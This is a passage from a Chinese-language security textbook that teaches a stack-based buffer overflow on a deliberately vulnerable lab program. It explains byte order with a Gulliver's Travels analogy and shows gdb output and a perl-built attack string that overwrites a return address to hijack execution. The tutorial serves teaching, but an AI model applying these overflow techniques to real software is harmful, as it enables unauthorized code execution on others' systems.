当我第一次学习基本的漏洞开发时，我花了很多时间抓耳挠腮，想不通是什么原因让我的漏洞无法成功。我曾经遇到过这个问题，不幸的是，我在操作系统课上学到字节序时并没有认真听讲。

在 1726 年出版的小说《格列佛游记》中，乔纳森·斯威夫特的主人公格列佛在海上遭遇沉船事故，漂流到小人国岛。小人国与邻国布莱福斯库的关系紧张，原因是关于如何正确地打开鸡蛋的争执。在小人国，鸡蛋从小的一端裂开，而在布莱福斯库，鸡蛋从大的一端裂开。在计算机科学中，我们也有类似的争论，涉及字节顺序问题。大端序认为最重要的字节应当首先存储，而小端序则首先存储最不重要的字节。我们的 Ubuntu 虚拟机采用的是英特尔架构，属于*小端序*。为了适应小端架构，我们需要翻转内存地址中的字节顺序，如下所示。

```
(gdb) **run $(perl -e 'print "A" x 9 . "\xf4\x83\x04\x08"')**
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/georgia/overflowtest $(perl -e 'print "A" x 9 . "\xf4\x83\x04\x08"')
```

使用返回地址 `\xf4\x83\x04\x08`，并翻转字节顺序以适应我们的英特尔架构，修复了我们的问题，如示例 16-16 所示。

示例 16-16. 成功劫持执行

```
Breakpoint 3, function (str=0xbffff700 "\017") at overflowtest.c:11
11    }
(gdb) **x/16xw $esp**
0xbffff510:    0xbffff523    0xbffff744    0xbffff528    0x080482e8
0xbffff520:    0x41fcfff4    0x41414141    0x41414141    0x080483f4
0xbffff530:    0xbffff700    0xbffff550    0xbffff5a8    0xb7e8c685
0xbffff540:    0x08048470    0x08048340    0xbffff5a8    0xb7e8c685

(gdb) **continue**
Continuing.
Execution Hijacked ❶

Program received signal SIGSEGV, Segmentation fault.
0xbffff700 in ?? ()
(gdb)
```

这次当我们触发断点时，我们的返回地址看起来是正确的。果然，当我们让程序继续执行时，控制台在❶处打印出“Execution Hijacked”，这意味着我们成功劫持了程序的执行并利用了缓冲区溢出漏洞。

为了在调试器外查看结果，我们从命令行运行`overflowtest`并传递一个包含新返回地址的参数，如下所示。

```
georgia@ubuntu:~$ **./overflowtest  $(perl -e 'print "A" x 9 . "\xf4\x83\x04\x08"')**
Execution Hijacked
Segmentation fault
```

注意，在`overflowed`函数返回后，当执行内存地址`bffff700`时，程序会因段错误崩溃。这个地址与返回地址后的栈上接下来的四个字节相同。回想一下内存是如何工作的，这就能解释了，但我们的“恶意”代码在崩溃前已经完全执行。在`overflowed`的栈帧从栈中弹出后，`bffff700`似乎取代了返回地址。我们直接将执行流转向`overflowed`，而没有进行正常的函数调用操作，比如保存返回地址。当`overflowed`的栈帧从栈中被卸载时，栈上的下一个内存地址被认为是返回地址，但这实际上只是`main`函数的栈帧的一部分，所以程序崩溃了。

你会如何增强攻击字符串以修复这个问题呢？没错，你可以在我们的攻击字符串中再添加四个字节，将执行流送回`main`中的原始返回地址。因为我们已经破坏了`main`的栈帧，可能仍然会遇到后续的问题，但我们可以实现我们的目标，让程序执行我们的代码。

## 总结

本章中，我们查看了一个简单的 C 程序，该程序存在缓冲区溢出漏洞（即使用了不安全的`strcpy`函数），并且没有检查数组边界，这使得我们可以写入相邻的内存。我们通过向命令行写入比程序预期更长的字符串来利用这个问题。我们通过覆盖一个函数的返回地址，用我们自己的值劫持了程序的执行。我们将执行流转到原程序中包含的另一个函数。

现在你已经看到了一个基于栈的溢出漏洞的基本示例，接下来我们将探讨一些更复杂的内容。在下一章中，我们的示例将集中在一个基于 Windows 的目标和一个实际的目标程序上。
